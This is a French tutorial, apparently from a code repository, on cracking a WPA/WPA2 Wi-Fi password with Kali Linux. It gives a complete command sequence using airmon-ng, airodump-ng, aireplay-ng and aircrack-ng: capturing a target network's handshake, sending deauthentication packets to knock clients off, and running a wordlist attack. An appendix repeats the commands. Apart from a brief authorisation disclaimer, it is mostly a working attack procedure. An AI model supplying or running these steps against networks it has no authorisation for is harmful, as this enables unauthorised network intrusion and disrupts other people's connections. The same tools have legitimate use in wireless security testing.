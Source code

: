 ### Tutoriel détaillé : Piratage de mot de passe Wi-Fi avec Kali Linux

#### Introduction
Ce tutoriel couvre de manière exhaustive les étapes pour pirater un mot de passe Wi-Fi en utilisant Kali Linux. Notez que cela doit être fait uniquement sur des réseaux pour lesquels vous avez une autorisation explicite.

#### Prérequis
1. **Kali Linux**
   - [Télécharger Kali Linux](https://zsecurity.org/download-custom-kali/)
   - [Installer Kali Linux sur VMware](https://www.vmware.com/products/workstation-player.html)

2. **Adaptateur sans fil compatible injection de paquets**
   - Exemple : Alfa AWUS036ACH

3. **Outils nécessaires**
   - aircrack-ng suite
   - ifconfig
   - airmon-ng
   - airodump-ng
   - aireplay-ng

#### Étapes détaillées

1. **Préparation de l'environnement**

   1.1 **Démarrer Kali Linux**
   - Ouvrez VMware et démarrez votre machine virtuelle Kali Linux.

   1.2 **Ouvrir la ligne de commande**
   - Lancez un terminal en cliquant sur l'icône de terminal ou en utilisant le raccourci `Ctrl+Alt+T`.

2. **Configurer l'adaptateur sans fil**

   2.1 **Vérifier la disponibilité de l'adaptateur sans fil**
   ```bash
   ifconfig
   ```
   - Notez l'interface correspondant à votre adaptateur sans fil (généralement `wlan0`).

   2.2 **Activer le mode moniteur**
   ```bash
   airmon-ng start wlan0
   ```
   - Remplacez `wlan0` par votre interface sans fil.
   - Vérifiez que le mode moniteur est activé en exécutant `ifconfig` à nouveau. Vous devriez voir une nouvelle interface (généralement `wlan0mon`).

3. **Scanner les réseaux Wi-Fi**

   3.1 **Lister les réseaux Wi-Fi disponibles**
   ```bash
   airodump-ng wlan0mon
   ```
   - Prenez note du BSSID et du canal (CH) du réseau cible.

4. **Capturer les paquets**

   4.1 **Commencer la capture des paquets du réseau cible**
   ```bash
   airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0mon
   ```
   - Remplacez `[channel]` par le canal du réseau cible.
   - Remplacez `[BSSID]` par le BSSID du réseau cible.
   - Remplacez `[output_file]` par le nom de fichier de sortie souhaité.

5. **Déauthentifier un appareil du réseau**

   5.1 **Forcer la déauthentification pour capturer le handshake**
   ```bash
   aireplay-ng --deauth 10 -a [BSSID] wlan0mon
   ```
   - Remplacez `[BSSID]` par le BSSID du réseau cible.
   - Cette commande envoie des paquets de déauthentification pour forcer un appareil à se reconnecter.

6. **Vérifier la capture du handshake**

   6.1 **Analyser les paquets capturés pour vérifier la présence du handshake**
   ```bash
   aircrack-ng [output_file].cap
   ```
   - Remplacez `[output_file]` par le nom de fichier de sortie précédemment spécifié.
   - Si le handshake est capturé, vous verrez un message indiquant la capture réussie.

7. **Craquer le mot de passe**

   7.1 **Utiliser un fichier de mots de passe pour craquer le handshake capturé**
   ```bash
   aircrack-ng -w [wordlist] -b [BSSID] [output_file].cap
   ```
   - Remplacez `[wordlist]` par le chemin vers votre fichier de mots de passe (ex. : `/home/user/wordlist.txt`).
   - Remplacez `[BSSID]` par le BSSID du réseau cible.
   - Remplacez `[output_file]` par le nom de fichier de sortie.

#### Détails supplémentaires

1. **Installation de l'adaptateur sans fil**

   - **Télécharger et installer les pilotes** : Certains adaptateurs nécessitent des pilotes spécifiques. Suivez les instructions de [ce lien](https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57) pour configurer votre adaptateur.

2. **Gestion des interfaces réseau**

   - **Désactiver les services interférents** : Avant de démarrer le mode moniteur, il peut être nécessaire de désactiver certains services pour éviter les conflits.
   ```bash
   airmon-ng check kill
   ```

3. **Optimisation de la capture**

   - **Utiliser plusieurs canaux** : Si vous ne connaissez pas le canal exact, vous pouvez utiliser l'option `--channel` pour scanner plusieurs canaux.

4. **Utilisation de WPA/WPA2-PSK**

   - **Les handshakes WPA/WPA2** : Les réseaux protégés par WPA/WPA2 utilisent des handshakes qui peuvent être capturés et craqués si un mot de passe faible est utilisé.

5. **Gestion des erreurs courantes**

   - **Interface non détectée** : Assurez-vous que votre adaptateur est bien branché et reconnu par le système.
   - **Pas de handshake capturé** : Réessayez la déauthentification plusieurs fois ou vérifiez si le réseau cible utilise un système de protection plus robuste.

#### Conclusion
En suivant ces étapes détaillées, vous pouvez tester la sécurité de vos propres réseaux Wi-Fi de manière éthique. Utilisez toujours ces techniques de manière responsable et légale. 

Pour toute question supplémentaire ou besoin de clarification, n'hésitez pas à demander.


# Annexe 

### Résumé des Commandes pour Pirater un Mot de Passe Wi-Fi

1. **Vérifier l'adaptateur sans fil**
   ```bash
   ifconfig
   ```

2. **Activer le mode moniteur**
   ```bash
   airmon-ng start wlan0
   ```

3. **Lister les réseaux Wi-Fi disponibles**
   ```bash
   airodump-ng wlan0mon
   ```

4. **Capturer les paquets du réseau cible**
   ```bash
   airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0mon
   ```

5. **Déauthentifier un appareil du réseau**
   ```bash
   aireplay-ng --deauth 10 -a [BSSID] wlan0mon
   ```

6. **Vérifier la capture du handshake**
   ```bash
   aircrack-ng [output_file].cap
   ```

7. **Craquer le mot de passe avec un fichier de mots de passe**
   ```bash
   aircrack-ng -w [wordlist] -b [BSSID] [output_file].cap
   ```

Remplacez les termes entre crochets `[ ]` par les valeurs appropriées :
- `[channel]` : Canal du réseau cible.
- `[BSSID]` : BSSID du réseau cible.
- `[output_file]` : Nom du fichier de sortie pour la capture des paquets.
- `[wordlist]` : Chemin vers votre fichier de mots de passe.
